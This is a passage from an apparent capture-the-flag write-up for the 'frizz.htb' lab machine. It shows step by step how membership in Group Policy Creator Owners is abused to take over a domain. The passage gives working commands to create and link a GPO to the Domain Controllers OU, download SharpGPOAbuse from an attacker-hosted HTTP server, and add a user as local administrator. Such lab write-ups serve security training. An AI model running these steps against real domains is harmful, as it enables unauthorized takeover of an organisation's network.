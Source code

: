 ```text
frizz\Desktop Admins                         Group            S-1-5-21-2386970044-
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-
Authentication authority asserted identity   Well-known group S-1-18-1
frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-
Mandatory Label\Medium Mandatory Level       Label            S-1-16-8192
```
interesting, the user appears to belong to the `Group Policy Creator Owners` group.
This group can create GPOs and modify them.

#### Abusing GPO

First create a new Group Policy Object (GPO) named "ch3ckm8", 
it does **not** link the GPO anywhere yet tho, this gpo it's just created inside the Group Policy store of the domain.
```shell
New-GPO -Name "ch3ckm8"
```

Links the existing GPO named `"ch3ckm8"` to the **Organizational Unit (OU)** `Domain Controllers` in the domain `frizz.htb`.
```shell
New-GPLink -Name "ch3ckm8" -Target "OU=Domain Controllers,DC=frizz,DC=htb"
```
- `OU=Domain Controllers,DC=frizz,DC=htb` specifies the Distinguished Name (DN) of the **OU containing the domain controllers**.
- This means the policy will apply to **all domain controller machines** in the `frizz.htb` domain.

Transfer SharpGPOAbuse.exe on the machine on dir "C:\Users\M.SchoolBus"
https://github.com/byronkg/SharpGPOAbuse/blob/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```shell
python3 -m http.server 8080
```
transfer the binary from our local machine to the target:
```shell
Invoke-WebRequest -Uri http://10.10.14.248:8080/SharpGPOAbuse.exe -OutFile SharpGPOAbuse.exe
```
run it
```shell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName ch3ckm8
```
- AddLocalAdmin                   -> Tells the tool to add a local admin user
- UserAccount M.SchoolBus  -> The domain user to add as a local administrator
- GPOName ch3ckm8	   -> The target GPO to modify

Refresh group policies, thus applying any changes
```shell
gpupdate /force
```

To sumup, SharpGPOAbuse here **modifies the GPO `ch3ckm8`** to:
- Add the domain user `M.SchoolBus` to the **local Administrators group** on every machine where that GPO is linked (in your case, likely **domain controllers**, since it was linked to `OU=Domain Controllers`).
Once the GPO applies (e.g., via `gpupdate /force` or next reboot), `M.SchoolBus` will have **local admin rights on domain controllers**, which can lead to **full domain compromise**.
